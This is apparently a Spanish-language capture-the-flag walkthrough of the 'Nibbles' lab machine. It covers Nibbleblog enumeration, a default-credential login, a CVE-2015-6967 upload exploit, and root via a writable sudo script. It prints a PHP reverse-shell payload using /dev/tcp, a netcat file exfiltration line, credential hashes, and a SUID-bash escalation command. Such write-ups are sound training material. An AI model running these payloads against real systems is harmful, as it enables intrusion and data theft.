# Nibbles



- ssh: Xenial

- 80 -> */10.129.96.84/nibbleblog* vemos un Nibbleblog que es un cms



- Buscamos exploits para nibbleblog a primera vista, vemos un sql pero no parece ser que vaya por ahí, ya que los parámetros que aparecen en la index.php parecen NO influir en nada



-
```bash
whatweb http://10.129.96.84
```

http://10.129.96.84 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.96.84]

- Gobuster no reporta nada con la ip, pero si escaneamos a partir de */nibbleblog/*





- /content



No parece haber nada a simple vista excepto un par de .php que no devuelven nada a priori

- /feed.php
Vemos una IP pero no creo que sea relevante



- /admin



Mucho texto nada interesante a priori

- /admin.php



Panel de control, conseguimos entrar con contraseñas default admin:nibbles



- Buscamos algún exploit para nibbleblog 4.0.3
https://github.com/dix0nym/CVE-2015-6967
Ejecutamos el exploit tal como viene en el ejemplo
- Necesitaremos pasarle un payload que será un shell.php típico
```php
<?php exec('bash -c "bash -i >&/dev/tcp/10.10.14.96/443 0>&1"'); ?>
```

- Nos ponemos en escucha con
```bash
nc -nlvp 443
```

- Ejecutamos el exploit
```bash
python3 exploit.py -l http://10.129.96.84/nibbleblog/ -u admin -p nibbles -x shell.php
```



Vamos a ver lo que hacía el script



1. Se logea
2. Sube una imagen al plugin de *my_image* siendo una shell maliciosa en php
3. Accede a la imagen siendo interpretado el código php y enviando una shell a nuestro pc
nibbler

## Escalada

-
```bash
lsb_release -a
```

Xenial -> Coincide con la de ssh

- En */var/www/html/nibbleblog/content/private* vemos lo que parecen hashes o claves en *keys.php y shadow.php*



keys[0] -> nibbl08ee826e0531a482508227e99b7fb08a02dbc57c
keys[1] -> ebloge3a388b4dc866813a85b82b01b44178e06c3f3d4
keys[2] -> rulez7d1e888dd6f8277ba0c39946a272a027eda97d90
password -> ea8e3c9799c10e2982c0b54299fd866f32b95f5a
salt -> 8^8!@tv&zb3

-
```bash
sudo -l
```



- SUID -> nada
- Capabilities -> nada
- Solo usuario root y nibbler

- En home/nibbler vemos un *personal.zip* que nos descargaremos
```bash
cat personal.zip > /dev/tcp/10.10.14.96/4444
nc -nlvp 4444 > personal.zip
```

- Descomprimiremos el zip dentro de la máquina víctima también para poder ejecutarlo con sudo, ya que aparece en el *sudo -l* pero no está descomprimido (usamos unzip)

- Después de media hora de ejecución xd el script sirve para mostrar el estado del sistema
```bash
bash monitor.sh
```



Podemos ejecutarlo con root asique hacemos
```bash
bash -p monitor.sh
```

A priori da la misma info

- Tenemos permisos de escritura en el archivo por lo que la escalada es directa
Archivo
```bash
chmod u+s /bin/bash
sudo ./monitor.sh
```



root
